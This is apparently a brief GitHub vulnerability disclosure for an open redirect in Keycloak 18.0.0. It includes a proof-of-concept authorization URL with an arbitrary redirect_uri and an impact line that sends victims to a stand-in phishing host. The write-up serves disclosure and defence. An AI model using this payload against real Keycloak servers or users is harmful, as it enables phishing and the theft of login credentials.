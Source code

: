 # OpenRedirect-Keycloak18.0.0
An open redirection vulnerability (open redirect) happens when attackers are able to control where a website or application redirects users. Here in this case, we can mention any URL as value of redirect_uri and it successfully redirects to it.

**POC.** /auth/realms/master/protocol/openid-connect/auth?client_id=<id>&redirect_uri=<ANY_REDIRECT_URL>&state=72526a4b-d5b6-4424-90db-cc0f7c2001a7&response_mode=fragment&response_type=code&scope=openid&nonce=33e890be-c19f-463f-bd0e-7fdcd065c0fb HTTP/2


**Impact.** By exploiting the open redirect vulnerability on the keycloak using the URL parameter value 'redirect_uri', the attacker is redirecting the victim to http://attacker.com/phish
